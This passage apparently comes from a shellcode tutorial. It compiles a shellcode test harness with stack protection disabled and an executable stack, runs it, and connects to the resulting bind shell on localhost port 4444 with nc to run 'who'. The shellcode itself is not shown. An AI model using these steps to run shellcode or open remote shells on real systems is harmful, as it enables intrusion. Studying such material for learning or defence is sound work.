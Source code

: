 ```shell
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
Now it should work!\
Run the file:
```shell
./shellcode
Shellcode Length:  94
```
Connect and issue a command:
```shell
nc -v 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
who
pwoer    tty7         Dec 11 10:13 (:0)
```
It works!
